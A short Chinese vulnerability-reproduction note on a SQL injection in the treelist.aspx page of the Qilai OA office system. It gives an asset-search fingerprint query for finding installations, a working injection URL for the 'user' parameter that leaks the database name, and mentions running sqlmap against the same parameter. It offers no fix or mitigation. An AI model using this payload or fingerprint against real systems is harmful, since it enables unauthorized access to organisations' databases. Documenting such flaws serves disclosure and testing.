 # 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下



![qilai-1-1](images/qilai-1-1.png)

存在SQL注入的文件为 treelist.aspx

```plain
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-1-2](images/qilai-1-2.png)

使用SQLmap对参数 user 进行注入

![qilai-1-3](images/qilai-1-3.png)

